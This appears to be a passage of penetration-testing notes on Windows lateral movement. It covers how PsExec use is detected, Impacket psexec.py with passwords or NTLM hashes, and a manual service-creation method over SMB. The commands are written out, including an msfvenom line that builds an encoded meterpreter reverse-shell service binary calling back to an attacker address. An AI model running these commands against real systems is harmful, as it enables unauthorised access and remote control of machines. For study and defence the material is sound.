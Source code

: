### Detection on Target Machine
  - Since `psexecsvc.exe` is uploaded to target's network share (`ADMIN$`) a windows event log id `5145` (network share was checked for access) will be logged.
  - Event id `7045` for initial service installation will also be logged.
  - Furthermore the existance of file `psexecsvc.exe` is an indication that psexec has been used to access target machine.

### Detection on Source host
  - A registry value is created when PsExec License Agreement has been agreed to.
  - Execution history (prefetch)

---

## Impacket PsExec.py
  + [Impacket Collection](https://github.com/SecureAuthCorp/impacket) is a well-known collection of Python classes for working with network protocols.
  + Impacket PsExec works similar to to sysinternals psexec.
  + Needs admin rights on target machine
  + Port used: 445
  + Instead of uploading psexeccsv service binary, it uploads to `ADMIN$` a service binary with an arbitrary name. It may be flagged and stopped by AV, EDR
  + Interactive binaries like (powershell, vssadmin, plink...) will cause the service to fail
  ```sh
  #Using credentials
  psexec.py user1:"password"@172.16.50.42 cmd.exe
  #Using hashes
  psexec.py -hashes :217e50203a5aba59cefa863c724bf61b user1@172.16.50.42 cmd.exe
  ```

## PsExec-like without psexec (Using SC like psexec but in a manual way)
  + Requirements:
    - Port 139,445 open on the remote machine (smb)
    - Password or NTLM hash
    - Write permissions on a network shared folder. Doesn't matter which one.  
      NOTE: `NTFS permissions != Share Permissons`. So, permission to write locally is not enough
    - Permissions to create services on the remote machine: `SC_MANAGER_CREATE_SERVICE`-(Access mask: 0x0002)
    - Ability to start the service created:   
      `SERVICE_QUERY_STATUS (Access mask: 0x0004) + SERVICE_START (Access mask: 0x0010)`
  + The last 2 requirements above are granted to administrators. So an unpriviliged user does not comply with them.
  + For more details check [Lateral Movement- A deep look into psexec](https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec)

  + Example
    ```sh
    # Create an exe as a service
    msfvenom -p windows/x64/meterpreter/reverse_http LHOST=172.16.50.48 LPORT=8080 -f exe-service --platform windows -e x64/xor_dynamic  -o meter64_service.exe
    # List Shares
    smbclient -L 172.16.50.42 -U user1
    ```